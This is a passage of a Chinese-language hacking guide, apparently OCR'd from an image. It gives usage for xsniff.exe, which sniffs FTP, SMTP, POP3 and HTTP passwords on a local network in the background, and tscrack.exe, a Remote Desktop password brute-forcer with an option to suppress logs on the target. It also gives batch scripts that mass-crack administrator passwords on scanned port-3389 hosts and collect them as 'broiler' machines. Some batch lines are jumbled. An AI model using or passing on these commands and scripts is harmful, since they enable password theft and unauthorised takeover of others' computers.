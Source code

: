 九：

3、命令行方式嗅探器: xsniff.exe
可捕获局域网内FTP/SMTP/POP3/HTTP协议密码
参数说明
-tcp 输出TCP数据报
-udp 输出UDP数据报
-icmp 输出ICMP数据报
-pass 过滤密码信息
-hide 后台运行
-host 解析主机名
-addr IP地址 过滤IP地址
-port 端口 过滤端口
-log 文件名 将输出保存到文件
-asc 以ASCII形式输出
-hex 以16进制形式输出
用法示例
xsniff.exe -pass -hide -log pass.log 后台运行嗅探密码并将密码信息保存在pass.log文件中
xsniff.exe -tcp -udp -asc -addr 192.168.1.1 嗅探192.168.1.1并过滤tcp和udp信息并以ASCII格式输出
4、终端服务密码破解: tscrack.exe

参数说明
-h 显示使用帮助
-v 显示版本信息
-s 在屏幕上打出解密能力
-b 密码错误时发出的声音
-t 同是发出多个连接（多线程）
-N Prevent System Log entries on targeted server
-U 卸载移除tscrack组件
-f 使用－f后面的密码
-F 间隔时间（频率）
-l 使用－l后面的用户名
-w 使用－w后面的密码字典
-p 使用－p后面的密码
-D 登录主页面
用法示例
tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码
tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户
@if not exist ipcscan.txt goto noscan
@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
nscan
@echo 3389.txt no find or scan faild
(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)
3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat
@if not exist tscrack.exe goto noscan
@tscrack %1 -l administrator -w pass.dic >>rouji.txt
:noscan
@echo tscrack.exe no find or scan faild
(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)
hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。

5、其它：
